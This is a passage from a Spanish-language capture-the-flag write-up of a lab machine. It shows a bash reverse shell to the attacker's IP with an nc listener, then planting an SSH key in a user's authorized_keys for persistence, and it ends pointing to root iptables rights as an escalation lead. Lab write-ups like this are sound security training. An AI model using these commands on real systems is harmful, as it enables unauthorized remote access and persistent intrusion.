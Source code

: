 para escribir comandos, usamos la parte de abajo de la pestana 

vamos a devolvernos una revshell a nuestra maquina con esto:
```bash
bash -i >& /dev/tcp/10.10.14.193/4445 0>&1
```
y estaremos en escucha:
```bash
nc -lnvp 4445
```

<img src="/images/writeup-backfire/Pasted image 20250512120015.png">

tenemos nuestra revshell como el otro usuario *sergej*

mirando su carpeta ssh, tampoco tiene id_rsa, asi que podemos hacer el mismo procedimiento anterior, colocarnos en sus authorized_keys:
```bash
echo 's...................0' > /home/sergej/.ssh/authorized_keys
```

y desde otra terminal:

<img src="/images/writeup-backfire/Pasted image 20250512121550.png">

enumerando el sistema, vemos que tenemos la opcion de ejecutar iptables e iptables-save como root
